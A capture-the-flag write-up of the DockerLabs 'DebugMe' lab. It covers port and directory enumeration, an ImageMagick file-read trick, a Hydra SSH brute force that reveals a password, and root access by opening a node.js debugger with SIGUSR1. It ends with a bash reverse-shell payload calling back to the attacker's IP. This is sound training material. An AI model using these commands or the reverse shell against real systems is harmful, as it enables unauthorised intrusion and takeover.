 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-en
featured: true
draft: false
ogImage: "assets/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs 
  - LFI
  - nodejs
description:
  This cybersecurity challenge guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process. 
lang: en
--- 
```


This cybersecurity challenge, available on <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process to achieve root access. 

## Table of contents

## Enumeration

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](/assets/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](/assets/debugme/image.png)

We visit the website on ports 80 and 443, and the same page appears. It seems to be a tool where we can select an image and the different size versions we want for the image.

![Resize image](/assets/debugme/image-2.png)

When submitting the form with an image and different versions, it shows them on a page.

![Result](/assets/debugme/image-3.png)

We do a bit of fuzzing on the web service using gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

We find the classic info.php, with PHP information.

![gobuster](/assets/debugme/image-4.png)

In `/info.php`, we find a bunch of installed PHP extensions and a slightly outdated PHP version `PHP Version 7.2.24-0ubuntu0.18.04.3`.

We also see that the `GD` and `Image Magick` modules are installed, which may be used for the image transformation service.

## Intrusion

There are likely different ways to perform the intrusion; in this case, we opted for a possible LFI (I think this would be LFI, but I'm not sure) that occurs during ImageMagick transformation.

More information at:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Following the instructions from hackplayers, we install the necessary dependencies:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

We use a PNG and add the profile field with the path we want to inject. This will create the pngout.png file.

![pngcrush](/assets/debugme/image-5.png)

We check that it has been added correctly.

```bash
exiv2 -pS pngout.png
```

![alt text](/assets/debugme/image-6.png)

Now we use the pngout.png image in the web service, select a size, and click on "Resize".

![Resize payload](/assets/debugme/image-7.png)

The two images appear, we right-click on one and download it to our Kali, naming it resultado.png.

![alt text](/assets/debugme/image-8.png)

We check if the data has leaked in the profile.

```bash
identify -verbose resultado.png
```

![alt text](/assets/debugme/image-9.png)

It seems the data leaked correctly. We copy all the hexadecimal bytes from the profile and put them in a single line. Then, we include them in the following Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

And the result:

![alt text](/assets/debugme/image-10.png)

Great, we now have an LFI, and we can see that there is a user named `lenam` and another named `application`.

### SSH Brute Force

If we try to look for other interesting files, we don't find anything. We attempt a brute force attack with the user `lenam` using Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

With a little patience, we find the SSH password for the user lenam.

![lenam ssh password](/assets/debugme/image-11.png)

## Privilege Escalation

We access via SSH using the user `lenam` and the password `loverboy`.

![alt text](/assets/debugme/image-12.png)

We see that we can run the command `/bin/kill` as root with lenam's password.

We also look at the processes that root is running and observe that a node.js process is being executed.

```bash
ps aux | grep root
```

![processes](/assets/debugme/image-13.png)

We check if there are any open local ports and find ports 8000 and 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](/assets/debugme/image-14.png)

Port 8000 seems to be a node.js application.

```bash
curl 127.0.0.1:8000
```

![alt text](/assets/debugme/image-15.png)

Since we can kill any process, we try to open the node.js debugger by sending a `SIGUSR1` signal to the node.js process. This should restart the node.js application with the debug port open (by default, port 9229) and accessible via websockets.

More information:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

To obtain the PID of the node.js process:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

The complete command:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

We check if the debug and inspection port 9229 is now open.

![port 9229](/assets/debugme/image-16.png)

Bingo! It worked. Now we enter the node.js application with the inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](/assets/debugme/image-17.png)

We listen with netcat.

```bash
nc -lvnp 5000
```

And we execute the following payload in the debug console, replacing the IP 10.0.2.15 with yours.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](/assets/debugme/image-18.png)

Congratulations, we are now root.